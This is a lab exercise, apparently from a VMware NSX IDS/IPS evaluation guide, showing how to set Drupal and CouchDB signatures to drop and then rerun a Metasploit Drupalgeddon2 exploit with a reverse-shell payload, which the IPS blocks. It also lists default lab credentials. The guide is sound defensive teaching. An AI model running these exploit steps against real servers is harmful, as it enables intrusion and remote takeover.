



## 8. Preventing an Attack
**Estimated Time to Complete: 30 minutes**

In this exercise, we will show how the NSX Distributed IDS/IPS can just detect but also prevent an attack. We will run the same attack scenario as before.

**Tune the Web-FrontEnd Profile**

In order to prevent an attack, we need to both change the mode in our IDS/IPS rule(s) to **detect and prevent** and ensure that relevant signature actions are set to either **drop** or **reject**.
The default VMware-recommend signature action can be overrided both at the global level, or within a profile. For the purpose of this lab, we will make the modification within the profile.
Besides changing the signature action, you can also disable signatures as the global or per-profile level, which may be needed in case of false-positives.

1. In the NSX Manager UI, navigate to Security -->  Distributed IDS/IPS --> Profiles
2. Click the 3 dots icon next to the  **Web-FrontEnd** profile and then click **Edit**.
3. Click **Manage signatures for this profile**.
4. In the Filter field, select **Product Affected** and type **drupal_drupal** and click **Apply** to only show the signatures related to Drupal.



5. You should see a filtered list with 4 signatures (may be different if you have a different signature package version deployed). 
5. For each of the signatures displayed, set the Action to **Drop** or **Reject**. Click **Apply** to confirm.



6. Click **SAVE** to save the changes to the **Web-FrontEnd** profile.

**Tune the Databases Profile**

Now we will also set the action for signatures related to **CouchDB** in the **Databases** profile to **Drop**.

1. In the NSX Manager UI, navigate to Security -->  Distributed IDS/IPS --> Profiles
2. Click the 3 dots icon next to the  **Databasesprofile** and then click **Edit**.
3. Click **Manage signatures for this profile**.
4. You should see a filtered list with 7 signatures (may be different if you have a different signature package version deployed). 
5. Click the selection box on top to select all signatures.  
6. Click the **ACTION** button on top and choose **Drop** to change the action for all selected signatures to **Drop**. Click **Apply** to confirm.
7. Click **SAVE** to save the changes to the **Databases** profile.

**Change the IDS/IPS Mode to Detect & Prevent**

For each IDS/IPS Rule, you can set the mode to **Detect Only** or **Detect & Prevent**. This mode effecively limits the action that can be taken. When deployed in **Detect Only** mode, the only action that will be taken when a signature is triggerd is an **Alert** will be generated, regardless of the action set for the signature. In **Detect & Prevent** mode on the other hand, the action set on each signature is applied.

1. In the NSX Manager UI, navigate to Security -->  Distributed IDS/IPS --> Rules
2. Click the **>** icon to expand the **NSX IDPS Evaluation** Policy. **ADD POLICY**
3. For both the **App-Tier Policy** and **Web-Tier Policy** rule, change the mode from **Detect Only** to **Detect & Prevent**.


4. Click **PUBLISH** to commit the changes.

**Open a SSH/Console session to the External VM**
1.	If your computer has access to the IP address you've assigend to the **External VM** (10.114.209.151 in my example), open your ssh client and initiate a session to it. Login with the below credentials. 
    * Username **vmware**
    * Password **VMware1!**
2. **Alternatively**, if your computer does not have access to the **External VM** directly, you can access the VM console from the  physical environment vCenter Web-UI. 

**Initiate DrupalGeddon2 attack against the App1-WEB-TIER VM (again)**
1.	Type **sudo msfconsole** to launch **Metasploit**. Enter **VMware1!** if prompted for a password. Follow the below steps to initiate the exploit. Hit **enter** between every step. 
    * Type **use exploit/unix/webapp/drupal_drupalgeddon2** to select the drupalgeddon2 exploit module
    * Type **set RHOST 192.168.10.101** to define the IP address of the victim to attack. The IP address should match the IP address of **App1-WEB-TIER VM**
    * Type **set RPORT 8080** to define the port the vulnerable Drupal service runs on. 
    * Type **exploit** to initiate the exploit, esbalish a reverse shell
    
2.	Confirm that as a **detect & prevent** policy is applied to the WEB-TIER VMs, the exploit attempt was prevented and no meterpreter session was established. Because the initial exploit was not successful, lateral movement to the iternal segment is also prevented.

```console
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > use exploit/unix/webapp/drupal_drupalgeddon2
[*] Using configured payload php/meterpreter/reverse_tcp
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOST 192.168.10.101
RHOST => 192.168.10.101
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set RPORT 8080
RPORT => 8080
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > exploit

[*] Started reverse TCP handler on 10.114.209.151:4444
[*] Exploit completed, but no session was created.
msf5 exploit(unix/webapp/drupal_drupalgeddon2) >

```
**Confirm IDS/IPS Events show up in the NSX Manager UI**
1.	In the NSX Manager UI, navigate to Security -->  Security Overview
2. Under the **Insights** tab, confirm you see a number of attempted intrusion against the  **APP-1-WEB-TIER** workload

3. Navigate to Security --> East West Security --> Distributed IDS
4. Confirm 2 signatures have fired:
    * Signature for **DrupalGeddon2**, with **APP-1-WEB-TIER** as Affected VM
    * Signature for **Remote Code execution via a PHP script**, with **APP-1-WEB-TIER** as Affected VM
    
    

5. Now you can drill down into these events. Click the **>** symbol to the left of the **ET WEB_SPECIFIC_APPS [PT OPEN] Drupalgeddon2 <8.3.9 <8.4.6 <8.5.1 RCE Through Registration Form (CVE-2018-7600)** event near the bottom of the table to expand this event. 
    * Confirm that the IP addresses of the attacker and victim match with the **External VM** and **APP-1-WEB-TIER VM** respectlively.
    * click the **green bar (Prevented)** to see details about the exploit attempts. You may see multiple attemts (from different ports) as Metasploit initiated multiple connections

  

You have now successfully prevented the initial exploit and further lateral movement.
This completes this exercise and the lab. You may continue with some optional exercises. 

This completes this exercise and the lab. You may continue with some optional exercises:   
[***Optional: 9. Segmentation***](/docs/9-Segmentation.md) 
[***Optional: 9. Segmentation***](/docs/9-Segmentation.md) 

Before moving to the next exercise, folow [these instructions](/docs/ClearingIDSEvents.md) to clear the IDS events from NSX Manager

---

[***Next Step : 11. Conclusion**](/docs/11-Conclusion.md) 
